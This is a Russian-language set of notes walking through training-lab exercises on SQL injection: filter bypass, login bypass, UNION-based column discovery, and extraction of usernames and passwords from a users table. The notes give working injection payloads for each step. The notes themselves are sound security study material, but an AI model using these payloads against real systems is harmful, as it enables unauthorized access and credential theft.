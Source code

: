 
<b>Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data</b>
  1. Видим, что при переходе по какому-то фильтру у нас идёт SQL запрос прямо из URL
  2. Вставляем туда кавычек и черточек filter?category=Corporate+gifts' OR 1=1 --
  3. Успех
  
<b>Lab: SQL injection vulnerability allowing login bypass</b>
  1. Переходим по ссылке регистрации
  2. Вместо логина пишем administrator, вместо пароля пишем ' OR 1=1 --
  3. Успех

<b>Lab: SQL injection UNION attack, determining the number of columns returned by the query</b>
  1. Выбираем любую категорию
  2. Прибавка к фильтру строки '-- возвращают тот же результат
  3. Дописываем мжду ними UNION SELECT и пытаемся подобрать колличество столбцов, путем перечисления NULL после SELECT
  4. ' UNION SELECT NULL, NULL , NULL -- подходит 
  5. Успех
  

<b>Lab: SQL injection UNION attack, finding a column containing text</b>
  1. Из предыдушей лабы мы нашли количество столбцов - теперь перебором найдем столбец, который отвечает за текст
  2. К фильтру прибавляем category=Accessories' UNION SELECT NULL, '0OmNnF', 1 --
  3. Успех

<b>Lab: SQL injection UNION attack, retrieving data from other tables</b>
  1. Используем уязвимость к union атакам 
  2. Прибавляем к url сategory=Corporate+gifts' UNION SELECT username, password FROM users --
  3. В строках с описанием находим пароль администратора
  4. Вставляем это в форму
  5. Успех
 
 ![alt text](https://raw.githubusercontent.com/StonePardon/Hack_all_the_things/master/SQL/mmm_admin.png)
 
 
<b>Lab: SQL injection UNION attack, retrieving multiple values in a single column</b>
  1. Аналогично предыдущему, но теперь первый столбец не является текстовым.
  2. Вместо него пишем NULLи для вывода и пароля, и логина используем CONCAT
  3. Подставляем в фильтер запроса category=' UNION SELECT NULL, CONCAT(username,password) FROM users--
  4. Получаем слитно пароль и логин, втавляем его в форму
  5. Успех
  
   ![alt text](https://raw.githubusercontent.com/StonePardon/Hack_all_the_things/master/SQL/admin_pass.png)
